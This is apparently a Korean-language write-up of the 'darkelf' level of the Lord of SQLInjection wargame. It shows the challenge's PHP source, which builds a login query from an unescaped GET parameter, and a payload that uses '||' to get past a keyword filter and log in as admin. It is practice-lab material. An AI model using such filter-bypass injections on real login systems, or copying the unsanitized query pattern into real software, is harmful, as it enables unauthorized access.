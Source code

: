 # LOS - darkelf

```php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect();  
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/or|and/i', $_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_darkelf where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("darkelf"); 
  highlight_file(__FILE__); 
?>
```

이번 문제에는 'or' 과 'and' 를 사용할 수 없는 조건이 있다. 

하지만 이 역시도 굉장히 간단히 우회할 수 있는데, 'or'은 '||'를 'and'는 '&&'를 사용하면 같은 역할을 한다. 따라서 or id='admin' #을 입력해주면 되겠다. 

```mysql
query : select id from prob_darkelf where id='guest' and pw='' || id='admin'#'
```

풀렸다!

![1565267162496](C:\Users\qkrwl\Documents\web\los\LOS - darkelf-clear.png)